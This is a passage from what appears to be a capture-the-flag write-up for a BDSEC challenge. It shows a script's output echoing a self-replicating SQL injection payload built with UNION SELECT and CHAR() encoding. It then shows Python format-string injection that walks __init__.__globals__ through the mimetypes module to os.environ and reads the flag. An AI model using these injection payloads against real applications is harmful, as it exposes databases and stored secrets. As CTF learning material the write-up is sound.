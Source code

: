 ##### using our code change the payload variable to contain the SSTI , Lets try 

```python
payload = '{data}'

python py2.py
Yooo!! ImmutableMultiDict([('username', '{data}"\''), ('password', ' UNION SELECT CHAR(123,100,97,116,97,125,34,39), REPLACE(REPLACE(REPLACE(" UNION SELECT CHAR(123,100,97,116,97,125,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -",CHAR(39),CHAR(34)),CHAR(36)," UNION SELECT CHAR(123,100,97,116,97,125,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -"), CHAR(92), CHAR());-- -')])"'!
```

##### okay it actually works , check global to find any useful modules or vars
```python
data.__init__.__globals__
```
#####  mimetypes module which import os  [mimetypes](https://github.com/python/cpython/blob/3.11/Lib/mimetypes.py) (was a hint actually)
```python
data.__init__.__globals__[mimetypes].os.environ[FLAG]
```

##### finally we get the flag !!!!!!
```python
python py2.py
Yooo!! BDSEC{f1nj3c710n5_4r3_p41nful}"'!
```
